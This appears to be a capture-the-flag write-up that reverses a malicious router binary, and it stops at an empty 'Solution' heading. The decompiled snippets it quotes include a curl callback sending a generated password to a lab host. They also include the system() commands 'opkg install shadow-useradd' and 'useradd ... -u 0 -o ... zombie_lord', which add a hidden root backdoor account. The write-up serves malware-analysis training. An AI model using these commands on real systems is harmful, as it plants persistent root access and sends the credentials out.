 A more elaborate binary than the first one... Let's check it out.

A string is being declared: `zombie_lord`. Then a couple more variables are populated using `memcpy()`, then a `malloc()`. 

We find a call to `init_crypto_lib()`, an unknown function:
```c
init_crypto_lib(acStack_68,acStack_3c,(int)pvVar2);
[...]
curl_easy_setopt(iVar3,0x2712,"http://configs.router.htb:8817/callback");
curl_easy_setopt(iVar3,0x271f,pvVar2);
```

This unknown function takes for the 3rd argument a variable that is also a payload for a `curl` request! Let's not waste time on that, and keep going. We'll come back when necessary!

```c
pFVar4 = fopen("/proc/sys/kernel/hostname","r");
local_168 = 0;
memset(auStack_164,0,0xfc);
sVar1 = fread(&local_168,0x100,1,pFVar4);
fclose(pFVar4);
(&uStack_169)[sVar1] = 0;
iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
```

We then find a check for the current hostname, the binary exits if the hostnames don't match! Same goes for a root check using `getuid()/geteuid()`!

The binary then checks for the existence of a user (`local_20`) using the `getpwnam()` function. (Used for managing user information and passwords, will return NULL if the user does not exist. [getpwnam(3)](https://man7.org/linux/man-pages/man3/getpwnam.3.html))

If the user does not exist then a call to `system()` is issued with arguments:

- `opkg update` - Will update the repositories
- `opkg install shadow-useradd` - Will install `shadow-useradd`
- `useradd -s /bin/ash -g 0 -u 0 -o -M zombie_lord` - Will create a user `zombie_lord` with `GID: 0`, `UID: 0` -> root user

Finally, it will call `passwd zombie_lord` using `popen` and will set the password as `pvVar2`. 

Now we know that the value of the `pvVar2` variable is the new backdoor user!

Keep in mind that the SSH port is exposed and both of the above programs run again after 10 minutes!

Instead of trying to reverse `init_crypto_lib()` and all subsequent functions we can emulate the binary in order to intercept the request or change the entry in the `/etc/host` file to point to our localhost IP instead of the docker one.

**WARNING:** Running binaries on your system, even as a non-privileged user, is extremely dangerous! Always run them in a truly isolated environment. Emulating this binary is fine because of the hostname, uid checks and even if those pass the program will crash trying to execute `opkg` because it does not exist!


# Solution
